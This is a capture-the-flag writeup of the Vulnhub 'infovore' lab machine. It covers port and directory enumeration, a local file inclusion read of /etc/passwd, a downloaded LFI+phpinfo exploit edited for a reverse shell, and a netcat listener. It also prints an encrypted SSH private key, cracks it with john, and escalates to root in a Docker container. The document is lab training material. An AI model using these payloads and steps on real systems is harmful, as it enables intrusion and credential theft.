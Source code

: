 ```yaml
---
title: Vulnhub - infovore
description: My writeup on infovore box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i0.wp.com/wp.laravel-news.com/wp-content/uploads/2017/07/php-leader.png?fit=2200%2C1125&ssl=1?resize=2200%2C1125)

Hi all, i pwned this box long time ago but i totally forgot to do a writeup haha ! :D It is a really interesting box, let's start!

You can find the machine there > [infovore](https://www.vulnhub.com/entry/infovore-1,496/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 23:18 EEST
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.00043s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:01:83:20 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.15 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 23:18 EEST
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.00043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Include me ...
MAC Address: 00:0C:29:01:83:20 (VMware)
```

Let's run a gobuster on it.

```
$ gobuster dir -q -u http://$ip/ -w $dir_medium -x php,txt,html -o gobuster.txt
/img (Status: 301)
/info.php (Status: 200)
/index.php (Status: 200)
/index.html (Status: 200)
/css (Status: 301)
/vendor (Status: 301)
```

Nothing interesting, i decided to do fuzz the parameter on `index.php` using wfuzz:

```
$ wfuzz -c -w $dir_medium --hw 382 http://$ip/index.php?FUZZ=/etc/passwd

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.8/index.php?FUZZ=/etc/passwd
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000025370:   200        26 L     33 W     1006 Ch     "filename"                      
```

## LFI + phpinfo = RCE - shell as www-data

We have LFI:

```
$ curl -s http://$ip/index.php\?filename\=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Nothing interesting.. and LFI seems like it allows only `/etc/passwd`, after some google-fu i find out a really interesting tool [LFI+phpinfo=RCE](https://github.com/M4LV0/LFI-phpinfo-RCE)

We have LFI + phpinfo (info.php) let's download & edit the exploit:

```
wget -q https://raw.githubusercontent.com/M4LV0/LFI-phpinfo-RCE/master/exploit.py
```

1) We have to add our ip & port for the reverse shell:

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 3333;       // CHANGE THIS
```

2) We have to edit this:

```
POST /phpinfo.php?a= -> POST /info.php?a=
```

3) And finally this to add our LFI parameter:

```
GET /index.php?lfi= -> GET /index.php?filename=
```

Save & close and execute it:

```
$ python exploit.py $ip 80
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 98082
Spawning worker pool (10)...

Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...
```

We have shell! 

```
$ nc -lvp 5555
listening on [any] 5555 ...
$ bash -i
www-data@e71b67461f6c:/$ 
```

## www-data - root

Now we're into a docker dontainer, i'll show you some ways to understand if you're inside a docker container.

An easy way to understand is from the container ID on the command prompt -> `www-data@e71b67461f6c`

Another way is under root directory you can see this:

```
drwxr-xr-x 74 root root   4096 Jun 23 10:59 .
drwxr-xr-x 74 root root   4096 Jun 23 10:59 ..
-rwxr-xr-x  1 root root      0 Jun 22 22:39 .dockerenv
```

.dockerenv contains the environment variables.

And the last way is by `cgroup` (control groups):

```
www-data@e71b67461f6c:/$ cat /proc/1/cgroup
8:perf_event:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
7:blkio:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
6:net_cls,net_prio:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
5:freezer:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
4:devices:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
3:cpu,cpuacct:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
2:cpuset:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
1:name=systemd:/docker/e71b67461f6c0078a9d7d25a70c0c303b81f0fa20a9a5fab4e51c098d575c0a7
```

Let's continue. Under root directory we can see `.tgz` file, let's extract it.

```
www-data@e71b67461f6c:/$ tar -xvf .oldkeys.tgz -C /tmp
root
root.pub
www-data@e71b67461f6c:/$ cat /tmp/root
cat /tmp/root
-----BEGIN DSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2037F380706D4511A1E8D114860D9A0E

ds7T1dLfxm7o0NC93POQLLjptTjMMFVJ4qxNlO2Xt+rBqgAG7YQBy6Tpj2Z2VxZb
uyMe0vMyIpN9jNFeOFbL42RYrMV0V50VTd/s7pYqrp8hHYWdX0+mMfKfoG8UaqWy
gBdYisUpRpmyVwG1zQQF1Tl7EnEWkH1EW6LOA9hGg6DrotcqWHiofiuNdymPtlN+
it/uUVfSli+BNRqzGsN01creG0g9PL6TfS0qNTkmeYpWxt7Y+/R+3pyaTBHG8hEe
zZcX24qvW1KY2ArpSSKYlXZw+BwR5CLk6S/9UlW4Gls9YRK7Jl4mzBGdtpP85a/p
fLowmWKRmqCw2EH87mZUKYaf02w1jbVWyjXOy8SwNCNr87zJstQpmgOISUc7Cknq
JEpv1kzXEVJCfeeA1163du4RFfETFauxALtKLylAqMs4bqcOJm1NVuHAmJdz4+VT
GRSmO/+B+LNLiGJm9/7aVFGi95kuoxFstIkG3HWVodYLE/FUbVqOjqsIBJxoK3rB
t75Yskdgr3QU9vkEGTZWbI3lYNrF0mDTiqNHKjsoiekhSaUBM80nAdEfHzSs2ySW
EQDd4Hf9/Ln3w5FThvUf+g==
-----END DSA PRIVATE KEY-----
```

Let's crack it.

```
$ /usr/share/john/ssh2john.py key > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
choclate93       (key)
```

Now we can login as root, we will do a trick here to spawn a PTY (pseudo-terminal):

```
www-data@e71b67461f6c:/$ su -P - root
su -P - root
Password: choclate93
root@e71b67461f6c:~# cat root.txt
FLAG{Congrats_on_owning_phpinfo_hope_you_enjoyed_it}

And onwards and upwards!
```

We're not done yet! :)



